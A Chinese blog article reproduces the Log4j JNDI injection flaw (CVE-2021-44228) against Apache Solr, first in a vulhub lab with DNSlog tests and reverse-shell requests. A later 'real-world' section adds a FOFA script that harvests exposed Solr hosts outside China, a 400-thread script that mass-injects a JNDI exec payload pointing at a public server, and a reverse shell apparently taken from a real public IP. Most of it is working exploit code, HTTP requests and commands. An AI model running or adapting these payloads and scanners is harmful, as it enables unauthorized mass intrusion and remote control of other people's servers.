[log4j-CVE-2021-44228-vulhub复现](https://cloud.tencent.com/developer/article/1922504)
====================================================================================

作者头像2021-12-21 16:11:10共 10418 字阅读需 42 分钟

> 乌鸦安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。

✎ 阅读须知

乌鸦安全的技术文章仅供参考，此文所提供的信息只为[网络安全](https://cloud.tencent.com/product/ns?from_column=20065&from=20065)人员对自己所负责的网站、[服务器](https://cloud.tencent.com/act/pro/promotion-cvm?from_column=20065&from=20065)等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。

乌鸦安全拥有对此文章的修改、删除和解释权限，如转载或传播此文章，需保证文章的完整性，未经授权，不得用于其他。

本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！

01

**漏洞描述**

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于${jndi:ldap://evil.com/example}的lookup用于进行JNDI注入，执行任意代码。

参考地址：

代码语言：javascript

复制

```
https://github.com/vulhub/vulhub
```

本次漏洞复现也是基于Vulhub

02

**漏洞环境搭建**

代码语言：javascript

复制

```
docker-compose up -d --build
```



访问`http://127.0.0.1:8983/solr/#/`



03

**Dnslog测试**

在DNSlog平台请求一个dns域名：`3j7r1s.dnslog.cn`



构造：

${jndi:dns://${sys:java.version}.example.com}是利用JNDI发送DNS请求的Payload：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.3a5h27.dnslog.cn}
```

直接访问：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.3j7r1s.dnslog.cn}
```



此时直接得到版本信息：`1.8.0`



或者是请求：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://cd9097fd.dns.1433.eu.org}
```



04

**反弹shell**

反弹shell需要使用JNDIExploit.v1.2，可以从下面百度云直接下载：

详细的信息可以参考[上一篇文章](/developer/tools/blog-entry?target=http%3A%2F%2Fmp.weixin.qq.com%2Fs%3F__biz%3DMzI3NjA4MjMyMw%3D%3D%26mid%3D2647778614%26idx%3D1%26sn%3D195e9bc45afaa614bed50035d8a7466d%26chksm%3Df35fbecac42837dcc24779cdc6123afeade569d5f7c872b08d1f19623ee7d6351d22bdc504bd%26scene%3D21%23wechat_redirect&source=article&objectId=1922504)

代码语言：javascript

复制

```
https://pan.baidu.com/s/1lxXt-27-i7I_dOUACphVtQ 提取码: nkc5
```



网络拓扑：



攻击机：`10.211.55.23`

靶机：`10.211.55.2`

中转机：`10.211.55.3`

中转机java版本：`1.8.0_172`

首先在中转机上使用`JNDIExploit-1.2-SNAPSHOT.jar`文件使用java启动，命令如下：

代码语言：javascript

复制

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 10.211.55.3
```

其中：`10.211.55.3`为中转机的ip地址



然后在攻击机上开启监听：`nc -lvvp 6666`



此时构造如下命令：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://10.211.55.3:1389/Basic/ReverseShell/10.211.55.23/6666}
```

其中：

*   `http://127.0.0.1:8983`为靶机的地址
*   `10.211.55.3`为中转机地址
*   `10.211.55.23`为Kali攻击机ip地址，此时要反弹shell

更多用法可以参考：

代码语言：javascript

复制

```
https://github.com/zzwlpx/JNDIExploit
```

直接执行之后，shell就弹回来了



此时在中转机器上：



成功！

清除环境：`docker-compose down`



05

**注 意 事 项**

中转机的java版本：`1.8.0_172`



java

shell

网络安全

安全

腾讯云开发者社区


# 一、实操：


## 0x01 DNSlog测试


发包

`${jndi:ldap://${sys:java.version}.gg.v72pck.ceye.io}`,获取java版本信息



```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.gg.v72pck.ceye.io} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close

```


结果：




## 0x02 命令执行

JNDInjector v1.1下载链接：

https://github.com/rebeyond/JNDInjector/releases


JNDInjector v1.1 开启监听，确保HTTP监听端口8000，和LDAP端口监听1389




构包

`${jndi:ldap://192.168.64.1:1389/cHzHTdZTWy/Plain/Exec/eyJjbWQiOiJpcCBhZGRyIn0=}`




发包：



```
GET /solr/admin/cores?action=${jndi:ldap://192.168.64.1:1389/cHzHTdZTWy/Plain/Exec/eyJjbWQiOiJpcCBhZGRyIn0=} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close

```


结果：




## 0x03 getshell

JNDIExploit v1.2下载链接：

https://github.com/Mr-xn/JNDIExploit-1/releases/tag/v1.2


windows物理机（192.168.64.1）利用JNDIExploit-1.2-SNAPSHOT 开启监听，确保HTTP监听端口8000，和LDAP端口监听1389




kali（192.168.64.128）开启监听




发包：目标（192.168.64.130）



```
GET /solr/admin/cores?action=${jndi:ldap://192.168.64.1:1389/Basic/ReverseShell/192.168.64.128/4444} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close

```


结果：




查看JNDIExploit-1.2-SNAPSHOT监听日志：




# 二、实战

## 0x01获取资产指纹为:`app="APACHE-Solr" && country!="CN" && header="200 OK"`

```python
'''
fofa接口
'''

"https://fofa.info/api/v1/search/all?email={FOFA_EMAIL}&key={FOFA_KEY}&qbase64={}"

import requests
import base64
import urllib3

FOFA_EMAIL = '*******@open_wechat'

FOFA_KEY = '*******'

cmd = 'app="APACHE-Solr" && country!="CN" && header="200 OK"'

q = base64.b64encode(cmd.encode()).decode()


url = f'https://fofa.info/api/v1/search/all?email={FOFA_EMAIL}&key={FOFA_KEY}&qbase64={q}&size=10000'


try:
    urllib3.disable_warnings()
    res = requests.get(url,verify=False,timeout=100)

    for i in res.json()['results']:
        print(i[0])

    print(len(res.json()['results']))

    with open(r'.\targets.txt','w',encoding='utf-8') as f:
        for i in res.json()['results']:
            f.write(i[0]+'\n')

            
except Exception as e:
    print("请求失败:",e)
```


## 0x02进一步筛选资产，响应体包含：`Solr Admin` 和`solrAdminApp`

```python
import requests
from  concurrent.futures import ThreadPoolExecutor
import urllib3

def POC(ip):

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Upgrade-Insecure-Requests":"1"
    } 

    uri= '/solr/'

    url=ip+uri

    print(url+'\n')


    #proxies={"http":"http://127.0.0.1:8080","https":"http://127.0.0.1:8080"}

    try:
        urllib3.disable_warnings()
        res =requests.get(url,headers=headers,verify=False,timeout=5)
        if   "Solr Admin"  in res.text and "solrAdminApp" in res.text:
            print(f"\033[32m{url}:存在\033[0m")
            
            with open('urls.txt','a') as f:
                f.write(url+'\n')

        else:   
            print(f"\033[31m{url}:不存在\033[0m")
            print(res.text)
    except Exception as e:
        print('请求失败',e)

if __name__ == '__main__':


    with open ('targets.txt','r') as f:
        data=[]
        data = f.readlines()
        with ThreadPoolExecutor(400) as pool:
            for i in data:
                if 'http' not in i:
                    i = 'http://' + i 
                target= i.split('\n')[0]
                pool.submit(POC,target)
```


## 0x03云服务器`JNDInjector_v1.1`开启监听LDAP和HTTP，Gadget选择：`Plain,`Payload选择：`Exec`,参数：`curl https://httpbin.org/ip`,

最终payload：`admin/cores?action=${jndi:ldap://47.116.182.94:1389/NnyEgRhDsm/Plain/Exec/eyJjbWQiOiJjdXJsIGh0dHBzOi8vaHR0cGJpbi5vcmcvaXAifQ==}`

比如：`java -jar JNDInjector.jar -i 47.116.182.94`,ldap监听1389端口，HTTP监听8888端口








## 0x04批量探测漏洞，将上面筛选出来的urls.txt里的资产复制到targets.txt

```python
import requests
from  concurrent.futures import ThreadPoolExecutor
import urllib3

def POC(ip):

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Upgrade-Insecure-Requests":"1"
    }

    uri= f'admin/cores?action=${{jndi:ldap://47.116.182.94:1389/NnyEgRhDsm/Plain/Exec/eyJjbWQiOiJjdXJsIGh0dHBzOi8vaHR0cGJpbi5vcmcvaXAifQ==}}'

    url=ip+uri

    print(url+'\n')

    #proxies={"http":"http://127.0.0.1:8080","https":"http://127.0.0.1:8080"}

    try:
        urllib3.disable_warnings()
        # res =requests.post(url,headers=headers,data=data,verify=False,timeout=5)
        res =requests.get(url,headers=headers,verify=False,timeout=5)
        if   "responseHeader"  in res.text and "status" in res.text and "error" in res.text:
            print(f"\033[32m{url}:存在\033[0m")
            
            with open('urls.txt','a') as f:
                f.write(url+'\n')

        else:   
            print(f"\033[31m{url}:不存在\033[0m")
            print(res.text)
    except Exception as e:
        print('请求失败',e)

if __name__ == '__main__':


    with open ('targets.txt','r') as f:
        data=[]
        data = f.readlines()
        with ThreadPoolExecutor(400) as pool:
            for i in data:
                if 'http' not in i:
                    i = 'http://' + i 
                target= i.split('\n')[0]
                pool.submit(POC,target)
    
```


## 0x05 JDNI监听收到的日志，筛选：回显结果




## 0x06上面探测到有回显的结果的资产，获取反弹shell


JNDIExploit.v1.2 监听LDAP和HTTP




nc监听80端口




发包：payload:`/solr/admin/cores?action=${jndi:ldap://47.116.182.94:389/Basic/ReverseShell/42.194.233.78/80} `

```
GET /solr/admin/cores?action=${jndi:ldap://47.116.182.94:389/Basic/ReverseShell/42.194.233.78/80} HTTP/1.1
Host:3.138.93.235:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```




JNDI监听收到请求




在另一台服务器，成功获得shell




# 结束！